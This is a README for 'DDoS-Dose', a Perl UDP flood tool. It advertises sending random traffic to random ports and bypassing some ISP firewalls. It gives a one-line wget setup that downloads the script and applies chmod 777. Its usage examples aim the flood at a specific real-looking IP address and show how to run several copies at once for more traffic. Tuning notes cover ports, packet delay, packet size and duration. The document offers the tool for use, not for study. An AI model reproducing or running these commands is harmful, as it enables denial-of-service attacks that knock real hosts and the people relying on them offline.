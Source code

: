 # Script for DDoS-Dose ! 

## Features

- Generate Random UDP Traffic
- To Random Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl
- Spoofed: No (doesn't include IP header Modification)

## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/UDP/random-udp-string%20%7C%20ID%3AA2/random-udp-string.pl && chmod 777 * && apt update -y && apt install perl -y
```

## Usage

```
perl random-udp-string.pl 162.241.27.65
```
```
YOU CAN RUN IT MULTIPLE TIME TO INCREASE TRAFFIC LIKE - Depends on CPU/RAM
perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65 & perl random-udp-string.pl 162.241.27.65
---> Multithreading Causing Issue
```
```
- This script pre-configured to send traffic to random port, (Line69) Can be Changed!
- This script pre-configured to send traffic with some delay between packet, (Line74) Can be Changed!
- This script pre-configured to send random packet size, (Line68), Can be changed!
- Can adjust time by "timeout 30" command or check (Line58)
```

## Related

want to pass the Target IP, Packet Size, Packet Count in Command Line

[Click Here for that Script](https://github.com/cyberceros/)

## Authors

- [@cyberceros](https://www.github.com/cyberceros)

## Feedback

If you have any feedback, please reach out to us at n@dultr.in






